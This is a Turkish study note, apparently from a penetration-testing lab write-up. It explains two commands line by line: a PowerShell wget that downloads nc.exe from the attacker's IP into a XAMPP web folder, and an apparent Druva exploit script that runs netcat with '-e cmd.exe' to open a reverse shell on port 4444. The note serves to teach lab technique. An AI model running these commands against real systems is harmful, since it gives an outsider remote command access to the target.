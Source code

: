 ```yaml
---
{"dg-publish":true,"permalink":"/baglantilar/komutun-ayrintisi-1/"}
---
```



1. Netcat'i İndirme Komutu

![Pasted image 20241218145825.png](/img/user/resimler/Pasted%20image%2020241218145825.png)

- **`powershell wget`**: PowerShell'de bir dosya indirmek için kullanılan `wget` komutu. Aslında, `Invoke-WebRequest`'in kısa hali.
- **`10.10.14.2/nc.exe`**:
    - `10.10.14.2` saldırganın IP adresi.
    - `nc.exe` dosyası Netcat programını temsil ediyor. Bu araç, ağ bağlantılarını dinleme ve ters bağlantı oluşturma gibi işlemler için kullanılır.
- **`-o`**: İndirilen dosyanın nereye kaydedileceğini belirtir.
- **`C:\xampp\htdocs\discuss\ups\nc.exe`**: Netcat dosyasının hedef sistemde bu dizine kaydedileceğini belirtir.

**Bu komut ne yapar?**

- Saldırgan makineden (`10.10.14.2`) `nc.exe` dosyasını indirir.
- Dosyayı hedef sistemin `C:\xampp\htdocs\discuss\ups\` klasörüne kaydeder.



2. Python Scripti ile Netcat'i Çalıştırma

`c:\python27\python.exe druva.py "windows\system32\cmd.exe /C C:\xampp\htdocs\discuss\ups\nc.exe 10.10.14.2 4444 -e cmd.exe"`

Bu komut iki parçadan oluşuyor:

#### **2.1 Python Scripti Çalıştırma**

- **`c:\python27\python.exe`**: Hedef sistemde Python 2.7 çalıştırıcıyı kullanır.
- **`druva.py`**: Bir Python scriptidir. Bu script bir komut çalıştırmak için kullanılıyor.
- **`"windows\system32\cmd.exe /C ..."`**:
    - `cmd.exe`: Windows komut istemcisini çalıştırır.
    - **`/C`**: Komut istemcisinin verilen komutu çalıştırdıktan sonra kapanmasını sağlar.

#### **2.2 Netcat ile Ters Bağlantı**

- **`C:\xampp\htdocs\discuss\ups\nc.exe`**: Daha önce indirdiğimiz Netcat programı çalıştırılır.
- **`10.10.14.2`**: Saldırganın IP adresi. Netcat, bu adrese bağlanacaktır.
- **`4444`**: Saldırgan tarafında dinlenen **port numarası**.
- **`-e cmd.exe`**: Netcat'e bağlandıktan sonra `cmd.exe`'yi çalıştırarak saldırgana **Windows komut satırı erişimi** sağlar.

---

### **Komutların Etkisi**

1. **İlk Komut**:
    - Netcat (`nc.exe`) dosyasını saldırgandan indirir ve hedef sistemde belirli bir klasöre kaydeder.
2. **İkinci Komut**:
    - Netcat'i çalıştırarak, hedef sistemden saldırganın IP'sine (10.10.14.2) **4444 portu** üzerinden bir bağlantı gönderir.
    - Bu bağlantı, saldırganın makinesinde dinleyen **Netcat** oturumuna bağlanır.
    - **`-e cmd.exe`** sayesinde saldırgan, hedef sistem üzerinde bir **komut satırı (cmd.exe)** oturumu elde eder.

---

### **Sonuç**

Bu komutların amacı:

- Hedef sistemde **Netcat** kullanarak saldırgana **ters bağlantı (reverse shell)** vermek.
- Saldırgan, hedef sistemde Windows komut satırını uzaktan kontrol edebilir.

**Özet Akış**:

1. Netcat dosyası indiriliyor.
2. Netcat çalıştırılarak saldırgana bağlantı gönderiliyor.
3. Saldırgan tarafında dinleyen Netcat oturumu, hedef sistemin `cmd.exe` komut satırına erişim sağlıyor.

Bu tür bir işlem, genellikle **penetration testing** veya **yetki yükseltme** aşamalarında kullanılır.



